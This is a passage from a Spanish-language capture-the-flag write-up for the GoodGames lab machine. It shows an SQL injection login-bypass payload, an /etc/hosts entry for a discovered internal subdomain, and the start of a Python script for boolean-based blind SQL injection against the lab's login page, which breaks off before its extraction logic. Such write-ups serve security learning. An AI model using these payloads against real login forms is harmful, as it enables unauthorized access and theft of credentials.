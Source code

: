 ```plaintext
' or 1=1-- -
```

![Iniciamos sesión usando una inyección SQL]({{ 'assets/img/commons/goodgames/sql_injection.png' | relative_url }}){: .center-image }
_Iniciamos sesión usando una inyección SQL_

Vemos que nos ha funcionado, además, hemos iniciado sesión como un usuario "admin", vemos que tenemos un botón que antes no teníamos.

![Entramos como el administrador de la página]({{ 'assets/img/commons/goodgames/admin_login.png' | relative_url }}){: .center-image }
_Entramos como el administrador de la página_

Si nos metemos al botón que no teníamos antes veremos que nos redirigen a un dominio nuevo, vamos a apuntarnoslo en el "/etc/hosts" para poder entrar en él.

```plaintext
❯ echo "10.10.11.130 internal-administration.goodgames.htb" | sudo tee -a /etc/hosts
```

Ahora que tenemos el dominio relacionado con la IP, vamos a volver a entrar a la página.

![Entramos como el administrador de la página]({{ 'assets/img/commons/goodgames/flask.png' | relative_url }}){: .center-image }
_Entramos como el administrador de la página_

Vemos otro login, si intentamos saltarnos de nuevo el panel de login con una inyección SQL no conseguiremos nada, necesitaremos unas credenciales para autenticarnos en el panel. Si nos acordamos, el panel de login anterior nos reportaba algo distinto dependiendo si el login era correcto o no. Nos podemos aprovechar de esto utilizando una inyección SQL de tipo "Boolean Based" explico todo esto mejor en el siguiente [post](https://xdann1.github.io/posts/inyecciones-sql/).

He creado el siguiente script en python para explotar la inyección SQL.

```python
#!/usr/bin/python3

"""
Usage:
  sqli.py (-p <payload>) [-l] (-r <letras>) (-i <palabras>)

Options:
  -h --help     Muestra este panel.
  -l            Añade Limit a la query
  -r            Rango de letras por palabra
  -i            Rango de palabras
"""


from pwn import *
from docopt import docopt
import requests, signal, string

# Variables globales
url = "http://10.10.11.130/login"
header = {"Content-Type": "application/x-www-form-urlencoded"}

numbers = string.digits
letters = string.ascii_lowercase
simbols = r"-_:@!$%&()*+/;<=>?[\]^{|}.~"
dictionary = numbers + letters + simbols

result = ""

def def_handler(sig, frame):
    print("\n[+] Saliendo...")
    exit(1)

```